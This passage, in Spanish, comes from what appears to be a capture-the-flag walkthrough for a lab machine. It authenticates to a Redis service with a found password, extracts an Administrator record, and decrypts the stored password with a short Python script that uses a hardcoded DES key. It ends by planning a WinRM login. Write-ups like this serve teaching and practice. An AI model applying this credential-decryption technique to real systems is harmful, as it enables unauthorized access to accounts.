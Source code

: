 Podemos tratar de conectarnos como el usuario administrador con la contraseña obtenida, pero no resulta ser la correcta. Pero otro punto a recalcar es que en el archivo de configuración vemos algo de `RedisServer`, asi que podemos tratar de conectarnos al servicio de `redis`.

```bash
❯ redis-cli -h 10.10.10.237
10.10.10.237:6379> auth kidvscat_yes_kidvscat
OK
```

Para poder enumerar el servicio podemos apoyarnos de `hacktricks`, te dejo el recurso aqui:

* [https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)

Podemos listar las KEYS disponibles y listar 

```bash
10.10.10.237:6379> KEYS *
1) "pk:ids:User"
2) "pk:ids:MetaDataClass"
3) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
4) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
10.10.10.237:6379> GET pk:ids:User
(error) WRONGTYPE Operation against a key holding the wrong kind of value
10.10.10.237:6379> GET pk:ids:MetaDataClass
(error) WRONGTYPE Operation against a key holding the wrong kind of value
10.10.10.237:6379> GET pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
"{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"
```
Obtenemos una contraseña enctryptada `Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi` con el mismo formato que la anterior que encontramos, asi que podemos usar el mismo exploit que previamente usamos para decencriptarla.

```python
import json
import base64
from des import * #python3 -m pip install des
import sys

hash = 'Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'

hash = base64.b64decode(hash.encode('utf-8'))
key = DesKey(b"7ly6UznJ")
print(key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
```

Ejectamos nuevamente el exploit y obtenemos una nueva contraseña.

```bash
❯ python3 portable.py
kidvscat_admin_@123
```

Podemos a intentar con esta nueva conectarnos como el usuario `Administrator` usando `winrm`.
